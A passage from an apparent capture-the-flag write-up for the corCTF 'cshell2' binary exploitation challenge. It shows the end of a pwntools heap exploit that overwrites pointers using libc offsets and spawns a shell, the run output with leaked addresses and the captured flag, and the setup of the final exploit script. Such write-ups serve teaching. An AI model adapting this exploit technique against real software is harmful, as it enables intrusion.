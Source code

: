 ```py
io.sendafter(b"Input lastname: \n", pwn.p64(libc.address + 0x71ab0))
io.sendlineafter(b"Input age: \n", str(0).encode())
io.sendafter(b"Input bio: \n", pwn.p64(libc.address + 0x4cb40))

# Finally

delete(0)
io.sendline(b"cat flag.txt")
pwn.log.info(f"flag: {io.recvline()}")

io.interactive()
```

Here we are:
```
nasm@off:~/Documents/pwn/corCTF/cshell2$ python3 exploit.py REMOTE HOST=be.ax PORT=31667
[*] '/home/nasm/Documents/pwn/corCTF/cshell2/cshell2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fb000)
    RUNPATH:  b'.'
[*] '/home/nasm/Documents/pwn/corCTF/cshell2/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to be.ax on port 31667: Done
[*] libc: 0x7f1d388db000
[*] heap: 0x665000
[*] flag: b'corctf{m0nk3y1ng_0n_4_d3bugg3r_15_th3_b35T!!!}\n'
[*] Switching to interactive mode
$
```

## Appendices

Final exploit:
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn


# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF('cshell2')
libc = pwn.ELF("./libc.so.6")

pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
pwn.context.timeout = 2000

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)

```